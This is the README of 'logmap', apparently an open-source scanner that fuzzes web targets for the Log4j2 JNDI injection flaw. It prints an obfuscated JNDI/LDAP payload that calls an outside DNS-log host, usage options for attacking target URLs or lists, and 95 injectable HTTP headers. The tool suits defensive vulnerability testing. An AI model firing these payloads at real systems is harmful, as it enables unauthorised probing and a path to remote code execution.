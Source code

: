 # logmap - Log4j2 jndi injection fuzz tool

Used for fuzzing to test whether there are log4j2 jndi injection vulnerabilities in header/body/path  
Use https://log.xn--9tr.com dnslog by default, If you want to use http://ceye.io, you need to modify the domain and token  
Manually edit line [#372](https://github.com/zhzyker/logmap/blob/main/logmap.py#L372) in logmap.py to modify:  
`args.ceye = ["xxxxxx.ceye.io", "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"]`  
to   
`args.ceye = ["1234567.ceye.io", "843fd6d58a8ebede756a2b991d321a5a"]`  

The default payload is `${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//DNS_LOG_DOMAIN/a}` You can customize at will, in line [#282](https://github.com/zhzyker/logmap/blob/main/logmap.py#L282)  

This is just a jndi injection fuzz tool, rce or others need yourself

# Use  
```bash
zhzy@debian:~/$ pip3 install -r requirements.txt
zhzy@debian:~/$ python3 logmap.py -h
```


![banner](https://user-images.githubusercontent.com/32918050/145970843-3d5522f6-0064-4464-b7f8-48efcd41ffbc.png)  

# Options
```bash
  -u URL, --url URL     Target URL (e.g. http://example.com )
  -f FILE, --file FILE  Select a target list file (e.g. list.txt )
  -d 1, --dns 1         Dnslog [1:log.xn--9tr.com, 2:ceye.io] default 1
  -p PAYLOAD            Custom payload (e.g. ${jndi:ldap://xx.dns.xx/} )
  -t 10                 Http timeout default 10s
  --proxy PROXY         Proxy [socks5/socks4/http] (e.g. http://127.0.0.1:8080)
  -h, --help            Show this help message and exit

```

# Config  
There are currently 95 fuzz headers  
```
Accept-Charset
Accept-Datetime
Accept-Encoding
Accept-Language
Ali-CDN-Real-IP
Authorization
Cache-Control
Cdn-Real-Ip
Cdn-Src-Ip
CF-Connecting-IP
Client-IP
Contact
Cookie
DNT
Fastly-Client-Ip
Forwarded-For-Ip
Forwarded-For
Forwarded
Forwarded-Proto
From
If-Modified-Since
Max-Forwards
Originating-Ip
Origin
Pragma
Proxy-Client-IP
Proxy
Referer
TE
True-Client-Ip
True-Client-IP
Upgrade
User-Agent
Via
Warning
WL-Proxy-Client-IP
X-Api-Version
X-Att-Deviceid
X-ATT-DeviceId
X-Client-IP
X-Client-Ip
X-Client-IP
X-Cluster-Client-IP
X-Correlation-ID
X-Csrf-Token
X-CSRFToken
X-Do-Not-Track
X-Foo-Bar
X-Foo
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded
X-Forwarded-Port
X-Forwarded-Protocol
X-Forwarded-Proto
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded-Ssl
X-Forwarder-For
X-Forward-For
X-Forward-Proto
X-Frame-Options
X-From
X-Geoip-Country
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Http-Method-Override
X-HTTP-Method-Override
X-Http-Method
X-Http-Path-Override
X-Https
X-Htx-Agent
X-Hub-Signature
X-If-Unmodified-Since
X-Imbo-Test-Config
X-Insight
X-Ip
X-Ip-Trail
X-Leakix
X-Original-URL
X-Originating-IP
X-ProxyUser-Ip
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Requested-With
X-Request-ID
X-True-IP
X-UIDH
X-Wap-Profile
X-WAP-Profile
X-XSRF-TOKEN
```
Some body and path  
You can also modify him to add your own body  
```
payload={}
user={}
pass={}
username={}
password={}
login={}
... ...
?id={}
?username={}
... ...
```
